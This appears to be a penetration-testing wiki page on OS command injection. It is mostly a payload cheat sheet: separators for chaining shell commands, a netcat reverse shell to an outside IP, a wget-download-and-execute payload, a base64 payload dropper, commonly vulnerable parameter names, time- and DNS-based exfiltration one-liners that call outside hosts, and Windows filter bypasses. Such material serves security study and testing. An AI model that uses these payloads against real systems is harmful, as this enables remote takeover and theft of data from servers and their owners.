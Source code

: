 # Command Injection

## What is command Injection?

OS command injection \(also known as shell injection\) is a web security vulnerability that allows an attacker to execute arbitrary operating system \(OS\) commands on the server that is running an application, and typically fully compromise the application and all its data. \(From [here](https://portswigger.net/web-security/os-command-injection)\).

### Context

Depending on **where your input is being injected** you may need to **terminate the quoted context** \(using `"` or `'`\) before the commands.

## Command Injection/Execution

```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands

#Not execute but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

### Bypasses

If you are trying to execute **arbitrary commands inside a linux machine** you will be interesting in read about this [**WAF bypasses**](../linux-unix/useful-linux-commands/bypass-bash-restrictions.md).

### **Examples:**

```text
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80
vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```

### Parameters

Here are the top 25 parameters that could be vulnerable to code injection and similar RCE vulnerabilities \(from [link](https://twitter.com/trbughunters/status/1283133356922884096)\):

```text
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```

### Time based data exfiltration

Extracting data : char by char

```text
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

### DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```text
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```text
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

Online tools to check for DNS based data exfiltration:

* dnsbin.zhack.ca
* pingb.in

### Filtering bypass

#### Windows

```text
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

#### Linux

{% page-ref page="../linux-unix/useful-linux-commands/bypass-bash-restrictions.md" %}

## Brute-Force Detection List

{% embed url="https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/command\_injection.txt" caption="" %}

## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection" caption="" %}

{% embed url="https://portswigger.net/web-security/os-command-injection" caption="" %}

